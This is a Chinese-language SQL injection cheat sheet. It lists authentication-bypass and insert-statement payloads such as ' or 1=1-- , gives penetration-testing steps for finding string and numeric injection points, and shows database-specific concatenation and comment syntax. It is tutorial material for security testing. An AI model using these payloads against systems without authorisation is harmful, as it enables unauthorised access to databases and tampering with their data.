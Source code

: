# SQL注入实用手册

## SQL注入常用Payload

**SQL语句：**`select * from users where username = '$payload' and password = 'password'`

**Payload：**
    
    1. payload'--(空格) 
    2. ' or 1=1--(空格)
    3. payload' or 'a'='a
    4. '    # 观察是否会造成错误，或者结果是否与原始结果不同

**SQL语句：**`insert into users (username, password, ID) values ('$payload', 'password', 1)`

**Payload：**

    1. payload', 'password', 1)--(空格)

> 可以在values子句中持续增加一个新的字段，猜测insert语句需要提交的参数个数。大多数数据库都会隐式地将一个整数转换为一个字符串。

    payload')--(空格)
    payload', 1)--(空格)
    payload', 1, 1)--(空格)

## 查明SQL注入漏洞

### 注入字符串数据

**渗透测试步骤：**

1. 提交一个单引号作为目标查询的数据。观察是否会造成错误，或结果是否与原始结果不同。

2. 如果发现错误或其他异常行为，同时提交两个单引号，看会出现什么情况。数据库使用两个单引号作为转义序列，表示一个原义单引号，这个序列会被解释成引用字符串中的数据，而不是结束字符串的终止符。如果这个输入导致错误或异常行为消失，则应用程序可能存在SQL注入攻击。

3. 为进一步核实漏洞是否存在，可以使用SQL连接符建立一个等同于“良性”输入的字符串。如果应用程序以与处理对应的“良性”输入相同的方式处理专门设计的输入，那么它很可能存在SQL注入。例如，注入以下实例构建等同于foo的输入：
    
        Oracle：' || 'foo
        MS-SQL：'+'foo
        MySQL：'(空格)'foo

> 可以通过在特定的参数中提交SQL通配符%来确定应用程序是否与后端数据库交互。

### 注入数字数据

**渗透测试步骤：**

1. 尝试输入一个结果等于原始数字值的简单数学表达式。例如，如果原始值为2，尝试提交1+1或者3-1。如果应用程序做出相同的响应，则表示它易于受到攻击。

2. 如果证实被修改的数据会对应用程序的行为造成明显影响，则前面的描述的测试方法最为可靠。如果在上述的数字化参数中插入任意输入，但是应用程序的行为却没有发生改变，那么前面的检测方法就无法发现漏洞。

3. 如第一个测试方法取得成功，就可以利用更加复杂的、使用特殊SQL关键字和语法的表达式进一步获得与漏洞有关的证据。例如，以下表达式等于2：

        67-ASCII('A')

4. 如果单引号被过滤掉，那前面的测试方法就没有作用。但是，在必要时，数据库会隐含地将数字数据转为字符串数据。例如，因为字符1的ASCII值为49，在SQL中，以下表达式等于2：

        51-ASCII(1)

> 在探查SQL注入过程中，注意对某些特殊字符进行恰当的编码，如：

    & = (空格) + ;

## 附录：

1. MySQL注释字符：
    
    --(空格) 或者 #